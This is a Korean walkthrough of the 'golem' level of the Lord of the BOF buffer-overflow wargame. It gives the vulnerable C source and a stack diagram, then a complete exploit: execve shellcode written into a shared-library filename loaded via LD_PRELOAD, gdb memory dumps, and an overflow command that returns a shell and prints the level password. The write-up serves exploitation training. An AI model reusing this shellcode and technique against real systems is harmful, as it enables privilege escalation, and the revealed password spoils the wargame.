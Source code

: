 ============================================================================================================
[lob] skeleton
============================================================================================================


source code
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer!
        memset(buffer, 0, 44);
        memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
    }



Buffer Overflow
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./golem `python -c 'print "a"*47'`

    stack is still your friend.
    
    $ ./golem `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault

|

exploit
============================================================================================================

쉘코드 파일명을 공유 라이브러리로 등록
--------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    $ gcc -fPIC -shared -o `python -c 'print "\x90"*40 + "\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    $ export LD_PRELOAD=./`python -c 'print "\x90"*40 + "\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500

    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

    ==========================================================================
    0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
    0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
    0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
    0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
    0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
    0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
    0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
    0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
    0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
    0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
    0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

    (중략)
    0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
    0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
    0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
    0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
    0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
    0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
    0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
                                        ^
    0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
                                                                        ^
    0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
    0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
    ==========================================================================

|

RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
-----------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- shared libc address
    argc    (4byte)  
    argv    (4byte)  
    ----------------
    HIGH    
    ================

|


공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    $ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
    bash$ whoami

    golem
    bash$ my-pass
    euid = 511
    cup of coffee

